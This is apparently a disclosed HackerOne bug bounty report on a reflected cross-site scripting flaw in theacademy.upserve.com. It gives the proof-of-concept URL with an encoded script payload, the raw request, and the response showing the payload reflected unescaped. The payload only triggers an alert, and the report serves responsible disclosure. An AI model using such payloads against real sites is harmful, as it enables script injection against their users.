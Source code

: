 # [theacademy.upserve.com] Reflected XSS Query-String

## Report Details
- **Report ID**: 389592
- **URL**: https://hackerone.com/reports/389592
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-08-02T11:35:23.605Z
- **Disclosed**: 2018-10-19T13:24:44.659Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: upserve

## Vulnerability Information
**Steps To Reproduce:**
Open URL in FireFox:
```
https://theacademy.upserve.com/roles/?%22%3E%3Cscript//src=data&colon;,alert(location)//
```

**HTTP Request**
```http
GET /roles/?%22%3E%3Cscript//src=data&colon;,alert(location)// HTTP/1.1
Host: theacademy.upserve.com
```

**HTTP Response**
```html
<a class="category dropdown-item name-sort sorting-desc" href="/roles/?"><script//src=data&colon;,alert(location)//&orderby=name&order=DESC">Name</a>
<a class="category dropdown-item views-sort " href="/roles/?"><script//src=data&colon;,alert(location)//&orderby=views&order=DESC" >Views</a>
<a class="category dropdown-item duration-sort " href="/roles/?"><script//src=data&colon;,alert(location)//&orderby=duration&order=DESC">Duration</a>
```

## Impact

Reflected XSS

## Attachments
No attachments

